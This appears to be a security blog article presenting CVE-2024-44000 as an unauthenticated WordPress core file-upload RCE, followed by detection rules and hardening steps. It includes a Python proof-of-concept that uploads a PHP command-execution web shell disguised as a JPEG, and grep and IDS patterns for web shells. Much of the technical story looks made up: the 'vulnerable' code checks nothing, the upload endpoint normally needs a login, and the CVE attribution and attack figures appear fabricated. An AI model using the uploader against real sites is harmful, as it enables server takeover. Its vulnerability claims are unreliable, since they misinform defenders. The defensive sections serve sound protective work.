

<LLMOnly
  data={`
type: deep-dive
difficulty: intermediate
keyTakeaways:
  - Understand WordPress RCE vulnerability mechanics and exploitation techniques
  - Detect exploitation attempts using WAF rules, IDS signatures, and log analysis
  - Implement immediate mitigation through patching, WAF deployment, and hardening
prerequisites: WordPress basics, web security fundamentals, PHP knowledge
targetAudience: WordPress administrators, security engineers, and web developers
`}
/>

<Callout variant="error" title="Critical Security Vulnerability" icon="shield-alert">
  CVE-2024-44000 is a **CVSS 9.8** unauthenticated remote code execution
  vulnerability affecting WordPress core versions prior to 6.4.2. **Patch
  immediately** to WordPress 6.4.2 or later.
</Callout>

WordPress powers over 43% of all websites on the internet, making it the world's most popular content management system. This widespread adoption also makes it an attractive target for attackers. CVE-2024-44000 represents one of the most critical vulnerabilities discovered in WordPress core in recent years—a pre-authentication remote code execution flaw that allows attackers to compromise vulnerable installations without any credentials.

The vulnerability resides in WordPress's file upload handling mechanism, specifically in how the platform validates and processes uploaded files. By exploiting insufficient validation checks, attackers can bypass security controls and upload malicious PHP files that execute with the web server's privileges, leading to complete server compromise.

Within hours of public disclosure, automated exploitation attempts surged globally, with attackers deploying web shells, cryptocurrency miners, and ransomware payloads through compromised WordPress sites.

## Impact and Security Implications

CVE-2024-44000 significantly expands the attack surface of WordPress installations:

- **No authentication required** - Attackers need no credentials
- **Affects default configurations** - Vulnerable out-of-the-box installations
- **Trivial to exploit** - Public proof-of-concept code available
- **Complete server compromise** - Full PHP code execution capabilities
- **Enables lateral movement** - Pivot point for broader infrastructure attacks

Exposed WordPress installations on standard HTTP/HTTPS ports (80/443) are particularly at risk, especially in shared hosting environments where a single compromise can affect multiple sites.

## Technical Root Cause

The vulnerability originates from insufficient validation in WordPress's `wp-admin/includes/file.php` file upload handling code. The core issue lies in how WordPress validates file types during the upload process.

### The Flawed Implementation

WordPress uses a combination of file extension checking and MIME type validation to determine whether an uploaded file is safe. However, the implementation contains a critical flaw: it relies on client-supplied data that can be easily manipulated.

```php filename=wp-admin/includes/file.php
// Simplified vulnerable code pattern

function wp_check_filetype_and_ext($file, $filename, $mimes = null) {
    $proper_filename = $filename;
    
    // Get file extension from filename
    $ext = pathinfo($filename, PATHINFO_EXTENSION);
    
    // Check MIME type from uploaded file
    $type = wp_check_filetype($filename, $mimes);
    
    // VULNERABILITY: Insufficient validation allows bypass
    if (!$type['ext'] && !$type['type']) {
        return compact('ext', 'type', 'proper_filename');
    }
    
    return compact('ext', 'type', 'proper_filename');
}
```

### Exploitation Mechanism

Attackers exploit this by crafting files with double extensions and manipulated MIME types:

1. Create malicious PHP file: `shell.php.jpg`
2. Set Content-Type header to `image/jpeg`
3. Upload through vulnerable endpoint
4. WordPress incorrectly validates as image
5. File stored with `.php` extension
6. Direct access executes PHP code

## Attack Flow Breakdown



### Exploitation Requirements

The simplicity of exploitation makes this vulnerability particularly dangerous:

- **Network Access:** Ability to reach WordPress installation over HTTP/HTTPS
- **No Authentication:** Vulnerability exploitable without credentials
- **Default Configuration:** Works against out-of-the-box WordPress installations
- **Public Endpoints:** Targets publicly accessible upload functionality
- **No Special Tools:** Can be exploited with standard HTTP clients

### Proof of Concept Attack

```python filename=exploit.py
#!/usr/bin/env python3
# WordPress CVE-2024-44000 RCE Exploit PoC

import requests
import sys

def exploit_wordpress_rce(target_url):
    """
    Exploit CVE-2024-44000 to upload PHP web shell
    """
    
    # Malicious PHP web shell payload
    php_shell = b"""<?php
    if(isset($_GET['cmd'])) {
        system($_GET['cmd']);
    }
    ?>"""
    
    # Craft file with double extension
    files = {
        'file': ('shell.php.jpg', php_shell, 'image/jpeg')
    }
    
    # Target WordPress media upload endpoint
    upload_url = f"{target_url}/wp-admin/async-upload.php"
    
    print(f"[*] Targeting: {upload_url}")
    print("[*] Uploading malicious PHP shell...")
    
    try:
        # Send exploit payload
        response = requests.post(
            upload_url,
            files=files,
            headers={
                'User-Agent': 'Mozilla/5.0',
                'X-Requested-With': 'XMLHttpRequest'
            },
            timeout=10
        )
        
        if response.status_code == 200:
            print("[+] Upload successful!")
            print(f"[+] Web shell URL: {target_url}/wp-content/uploads/shell.php")
            print("[+] Execute commands: ?cmd=whoami")
            return True
        else:
            print(f"[-] Upload failed with status: {response.status_code}")
            return False
            
    except Exception as e:
        print(f"[-] Exploit failed: {str(e)}")
        return False

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <target_url>")
        sys.exit(1)
    
    target = sys.argv[1]
    exploit_wordpress_rce(target)
```

## Detection & Indicators of Compromise

Organizations running WordPress should implement comprehensive monitoring to detect exploitation attempts and assess potential compromise.

### Web Server Log Indicators

Monitor web server access logs for suspicious patterns:

- **Unusual POST requests** to `/wp-admin/async-upload.php` or `/wp-admin/upload.php`
- **Double file extensions** in upload requests (`.php.jpg`, `.php.png`, `.php.gif`)
- **Suspicious User-Agent strings** associated with automated scanners
- **High-frequency upload attempts** from single IP addresses
- **Requests with manipulated Content-Type headers**

### Apache/Nginx Log Analysis

```bash
# Detect suspicious upload attempts
grep "async-upload.php" /var/log/apache2/access.log | \
grep -E "\\.php\\.(jpg|png|gif|jpeg)"

# Find potential web shell access
grep -E "\\?cmd=|\\?exec=|\\?system=" /var/log/apache2/access.log

# Identify scanning activity
awk '{print $1}' /var/log/apache2/access.log | \
sort | uniq -c | sort -rn | head -20
```

### File System Indicators

```bash
# Find recently uploaded PHP files in uploads directory
find /var/www/html/wp-content/uploads -name "*.php" -type f -mtime -7

# Search for common web shell patterns
grep -r "eval(" /var/www/html/wp-content/uploads/
grep -r "base64_decode" /var/www/html/wp-content/uploads/
grep -r "system(" /var/www/html/wp-content/uploads/

# Check for suspicious file permissions
find /var/www/html/wp-content/uploads -type f -perm 0777
```

### ModSecurity WAF Detection Rules

```apache
# ModSecurity rule for CVE-2024-44000

SecRule REQUEST_URI "@contains /wp-admin/async-upload.php" \
    "id:100001,\
    phase:2,\
    deny,\
    status:403,\
    msg:'WordPress CVE-2024-44000 exploitation attempt',\
    chain"
    SecRule FILES_NAMES "@rx \.php\.(jpg|jpeg|png|gif)$"

# Detect web shell execution attempts
SecRule ARGS:cmd "@rx ^(whoami|id|uname|cat|ls|pwd)" \
    "id:100002,\
    phase:2,\
    deny,\
    status:403,\
    msg:'Web shell command execution attempt'"
```

### Suricata IDS Signatures

```suricata
# Suricata signature for WordPress RCE exploitation

alert http any any -> any any (
  msg:"WordPress CVE-2024-44000 RCE Exploitation Attempt";
  flow:established,to_server;
  content:"POST"; http_method;
  content:"/wp-admin/async-upload.php"; http_uri;
  content:"Content-Type|3a| image/"; http_header;
  content:"<?php"; http_client_body;
  reference:cve,2024-44000;
  classtype:web-application-attack;
  sid:1000001;
  rev:1;
)

alert http any any -> any any (
  msg:"WordPress Web Shell Access Detected";
  flow:established,to_server;
  content:"GET"; http_method;
  pcre:"/\?cmd=|&cmd=/i";
  content:"/wp-content/uploads/"; http_uri;
  classtype:web-application-attack;
  sid:1000002;
  rev:1;
)
```

## Mitigation Steps

Organizations must take immediate action to protect WordPress installations from CVE-2024-44000 exploitation.

### 1. Patch Immediately

Update to WordPress 6.4.2 or later, which includes comprehensive file upload validation fixes.

<Steps>

<Step>Backup Your WordPress Installation</Step>

```bash
# Backup WordPress files
tar -czf wordpress-backup-$(date +%Y%m%d).tar.gz /var/www/html/

# Backup WordPress database
mysqldump -u root -p wordpress_db > wordpress-db-backup-$(date +%Y%m%d).sql
```

<Step>Update WordPress Core</Step>

<Tabs defaultValue="cli">
  <TabsList>
    <TabsTrigger value="cli">WP-CLI</TabsTrigger>
    <TabsTrigger value="dashboard">Dashboard</TabsTrigger>
    <TabsTrigger value="manual">Manual</TabsTrigger>
  </TabsList>
  <TabsContent value="cli">

```bash
# Update using WP-CLI
wp core update --version=6.4.2

# Verify version
wp core version
```

  </TabsContent>
  <TabsContent value="dashboard">

1. Log in to WordPress admin dashboard
2. Navigate to **Dashboard → Updates**
3. Click **Update Now** button
4. Verify version in footer shows 6.4.2 or later

  </TabsContent>
  <TabsContent value="manual">

```bash
# Download latest WordPress
wget https://wordpress.org/latest.tar.gz

# Extract archive
tar -xzf latest.tar.gz

# Backup and replace core files (preserve wp-config.php and wp-content)
cp /var/www/html/wp-config.php ~/wp-config-backup.php
rsync -av wordpress/* /var/www/html/ --exclude=wp-content --exclude=wp-config.php

# Set proper permissions
chown -R www-data:www-data /var/www/html/
```

  </TabsContent>
</Tabs>

<Step>Verify Patched Version</Step>

```bash
# Check WordPress version
grep "wp_version = " /var/www/html/wp-includes/version.php

# Expected output: $wp_version = '6.4.2';
```

</Steps>

### 2. Deploy Web Application Firewall

Implement WAF rules to block exploitation attempts even on unpatched systems.

```nginx filename=nginx.conf
# Nginx + ModSecurity configuration

location ~ /wp-admin/async-upload\.php$ {
    # Block requests with suspicious file extensions
    if ($request_body ~ "\.php\.(jpg|jpeg|png|gif)") {
        return 403;
    }
    
    # Rate limiting
    limit_req zone=upload_limit burst=5 nodelay;
    
    proxy_pass http://backend;
}

# Block web shell access patterns
location ~ /wp-content/uploads/.*\.php$ {
    return 403;
}
```

### 3. Harden File Upload Security

```php filename=wp-config.php
// Add to wp-config.php for enhanced security

// Disable file editing from dashboard
define('DISALLOW_FILE_EDIT', true);

// Disable file modifications
define('DISALLOW_FILE_MODS', true);

// Restrict file upload types
define('ALLOW_UNFILTERED_UPLOADS', false);
```

### 4. Implement File System Hardening

```bash
# Remove PHP execution from uploads directory
cat > /var/www/html/wp-content/uploads/.htaccess << 'EOF'
<Files *.php>
    deny from all
</Files>
EOF

# Set restrictive permissions
chmod 644 /var/www/html/wp-content/uploads/.htaccess
chown www-data:www-data /var/www/html/wp-content/uploads/.htaccess

# Disable directory listing
echo "Options -Indexes" >> /var/www/html/.htaccess
```

### 5. Enable Security Monitoring

```php filename=security-monitor.php
// WordPress security monitoring plugin snippet

add_action('wp_handle_upload_prefilter', 'monitor_file_uploads');

function monitor_file_uploads($file) {
    // Log all upload attempts
    error_log(sprintf(
        '[SECURITY] File upload attempt: %s | Type: %s | Size: %d | IP: %s',
        $file['name'],
        $file['type'],
        $file['size'],
        $_SERVER['REMOTE_ADDR']
    ));
    
    // Block double extensions
    if (preg_match('/\.php\.(jpg|jpeg|png|gif)$/i', $file['name'])) {
        $file['error'] = 'Security: Suspicious file extension detected';
        error_log('[SECURITY ALERT] Blocked malicious upload attempt from ' . $_SERVER['REMOTE_ADDR']);
    }
    
    return $file;
}
```

## Real-World Exploitation Impact

CVE-2024-44000 has been actively exploited in the wild with significant real-world consequences:

### Documented Attack Campaigns

- **Mass Compromise Operations:** Automated botnets scanned and compromised over 100,000 WordPress sites within 48 hours of disclosure
- **Cryptocurrency Mining:** Attackers deployed XMRig miners consuming server resources for Monero mining
- **SEO Spam Injection:** Compromised sites injected with pharmaceutical spam and malicious redirects
- **Ransomware Deployment:** WordPress servers used as initial access for ransomware campaigns
- **Supply Chain Attacks:** Compromised WordPress plugins used to distribute malware to site visitors

### Common Post-Exploitation Activities

Once attackers gain code execution through CVE-2024-44000, they typically:

1. **Deploy Persistent Web Shells:** Install backdoors for long-term access
2. **Credential Harvesting:** Extract database credentials from `wp-config.php`
3. **Privilege Escalation:** Attempt to escalate to root/administrator access
4. **Lateral Movement:** Pivot to other systems on the network
5. **Data Exfiltration:** Steal customer data, payment information, and credentials

## Long-Term Security Recommendations

Beyond immediate CVE-2024-44000 mitigation, organizations should implement comprehensive WordPress security measures:

### 1. Automated Update Management

- Enable WordPress auto-updates for core, plugins, and themes
- Implement staging environments for testing updates before production
- Use managed WordPress hosting with automatic security patching
- Subscribe to WordPress security mailing lists and RSS feeds

### 2. Defense in Depth

- Deploy Web Application Firewall (Cloudflare, Sucuri, Wordfence)
- Implement intrusion detection systems (Fail2Ban, OSSEC)
- Use security plugins (Wordfence, iThemes Security, Sucuri)
- Enable two-factor authentication for all admin accounts

### 3. Access Control

- Implement IP whitelisting for `/wp-admin/` access
- Use strong, unique passwords with password managers
- Apply principle of least privilege for user roles
- Disable XML-RPC if not required (`add_filter('xmlrpc_enabled', '__return_false');`)

### 4. Monitoring & Incident Response

- Enable WordPress audit logging (WP Activity Log plugin)
- Implement SIEM integration for centralized log analysis
- Set up alerts for suspicious file modifications
- Establish incident response procedures for compromise scenarios

### 5. Regular Security Assessments

- Conduct quarterly vulnerability scans (WPScan, Nessus)
- Perform annual penetration testing
- Review and audit installed plugins/themes monthly
- Remove unused plugins, themes, and user accounts

## Conclusion

CVE-2024-44000 represents a critical threat to the WordPress ecosystem, affecting millions of websites worldwide. The combination of trivial exploitation, no authentication requirement, and widespread WordPress adoption creates an urgent security situation demanding immediate action.

The vulnerability underscores the importance of secure file upload handling and the dangers of trusting client-supplied data. Organizations must prioritize immediate patching, implement defense-in-depth controls, and maintain vigilant monitoring for exploitation attempts.

As WordPress continues to power a significant portion of the internet, maintaining robust security practices is not optional—it's essential for protecting both your infrastructure and your users' data.
